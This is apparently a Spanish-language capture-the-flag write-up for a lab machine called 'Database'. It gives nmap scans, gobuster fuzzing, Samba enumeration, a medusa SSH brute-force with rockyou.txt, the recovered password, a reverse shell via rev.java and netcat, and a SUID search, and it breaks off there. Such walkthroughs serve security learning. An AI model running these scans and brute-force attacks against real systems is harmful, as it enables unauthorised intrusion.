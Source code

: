 # Máquina Database

### Puertos abiertos

sudo nmap -sS --min-rate 6000 -p- --open -vvv -Pn 172.17.0.2

![alt text](image.png)

### Servicios y versiones

sudo nmap -sVC --min-rate 6000 -p22,80,139,445 -vvv -Pn 172.17.0.2

![alt text](image-1.png)

### Fuzzing Web

gobuster dir -t 200 -u http://172.17.0.1/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,txt,bak,sh,py,js,html -r -b 403,404 2>/dev/null


### Analizando Samba

enum4linux 172.17.0.2

![alt text](image-2.png)


### Ataque con medusa hacia ssh.

creé un archivo users con los nombres de usuarios: augustus, dylan y bob luego lancé el ataque

medusa -h 172.17.0.2 -U users -P /usr/share/wordlists/rockyou.txt -M ssh

![alt text](image-3.png)


### Intrusión

nos conectamos por ssh con el usuario augustus y la contraseña lovely

![alt text](image-5.png)

código de rev.java
![alt text](image-4.png)

me puse en escucha con netcat en el puerto 443

![alt text](image-6.png)

hice tratamiento de la tty, luego ejecuté:

find / -perm -4000 2>/dev/null

![alt text](image-8.png)
